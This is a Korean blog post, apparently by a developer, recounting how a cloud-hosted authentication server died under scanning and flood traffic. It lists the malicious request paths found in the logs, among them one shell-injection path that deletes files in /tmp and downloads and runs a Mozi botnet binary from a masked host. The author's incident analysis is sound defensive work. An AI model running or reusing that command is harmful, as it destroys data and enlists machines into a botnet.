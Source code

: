 당시 상황에 대해 먼저 정리해 보자. 크게 5개 요소로 이루어진 서비스를 구축해야 하는 상황이었다. 그중 하나는 사용자 로컬 PC에서 동작해야 하는 에이전트 프로그램이기 때문에 제외하고, 서버 인스턴스를 4개 제공받았다. 그림으로 그려볼까.

<p class="center">
  <img src="https://i.postimg.cc/L4BGvRNM/briefarch.png" alt="대략적"/>
</p>

사실 각 서버 프로그램들을 하나의 인스턴스 안에 세팅해도 됐지만, 어쩌다 보니 누추한 서비스에 비해 과분한 대접을 받게 되었다. 나는 각 인스턴스마다 필요한 포트를 담당자분께 요청하고, 외부에서 접근이 가능하도록 만들었다. 위 구성에 기반해 내가 생각한 서비스의 접근 형태는 다음과 같았다.

<p class="center">
  <img src="https://i.postimg.cc/rpzLPpQH/first.png" alt="뭔가 이상하겠지만 그래도 참아"/>
</p>

비록 당시 각 구성요소들이 어떤 코드와 설정으로 구현되어 있었는지는 잘 몰랐지만, 이렇게 가정하고 서비스를 구축해 어쨌든 잘 동작하는 것을 확인하였다. 그리고 몇 주 뒤, <strong>인증 서버가 사망하게 되는데...</strong>

### 부검

로그인이 안된다는 연락을 받은 나는 인증 서버의 인스턴스에 접속해 서버가 죽은 것을 발견하였다. 로그엔 서버의 단말마가 이렇게 기록되어 있었다.

<p class="center rounded-edge-16">
  <img src="https://i.postimg.cc/3JV8zpBV/image.png" alt="단말마"/>
</p>

<p class="center rounded-edge-16">
  <img src="https://i.postimg.cc/mgsB0ZwR/image.png" alt="단말마2"/>
  <br/>
  조금 개선된 버전
</p>

수많은 404 에러의 향연, 애초에 제한된 사용자에게만 공개될 서비스였는데 비이상적으로 많은 요청 실패가 기록되어 있다. 게다가 요청 경로들의 면면들이 모두 흉악하다.

- `/.env`
- `/.git/config`
- `/test`
- `/Api/GetCmd.aspx`
- `/shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws`

다행히 정보가 나간 정황은 보이지 않았다. 애초에 그럴 정보가 들어있지도 않은 상태였고. 감당할 수 없는 요청이 들어와 서버 프로세스가 사망했거나 인스턴스가 재부팅되었을 것이다. 3개의 서버 중 한 서버에만 공격이 발견되었는데, 때마침 그 서버의 이름은 XXX-<strong>auth</strong>. 즉 로그인/유저정보 관리 등을 수행하는 인증 서버였다. 누가 봐도 악의적인 공격.

<p class="center">
  <img src="https://i.postimg.cc/K80c5nhw/image.png" alt="해커맨"/>
  <br/>
  "당신의 IP를 언제든지 알고 있음"
</p>

내가 받은 요청 경로들을 살펴보자, 민감한 설정 파일들, 뭔가 동작하게 만들 수 있을 것 같은 명령어, 그 악명 높은 `rm -rf`도 섞여있다. 동시에 `wget`으로 `Mozi.a`라는 파일을 받으려 하는 것도 볼 수 있다. 검색을 해보니 Mozi Botnet이라는 악성코드와 연관된 것으로 보인다. 아마 내 인스턴스를 좀비 PC로 만들려는 시도였겠지. 공격자는 미리 유명 클라우드들의 IP 테이블들을 준비, 80/443 포트 혹은 기타 자주 사용되는 포트로 요청을 보내는 스크립트를 구동해놓았을 것이다. 그중 Timeout이 아닌 응답을 주는 호스트들을 기록했을 것이고, 거기서 API 안내 페이지나 기타 정보를 통해 <strong>Auth</strong>라는 이름을 가진 내 인증 서버를 발견했을 것이다. 그리고 본인이 가진 좀비 PC들을 동원해 요청 폭탄을 터트리고(<strong>DDoS 공격</strong>), 취약점 탐색을 시도한 것으로 보인다(<strong>웹 스캐닝</strong>).
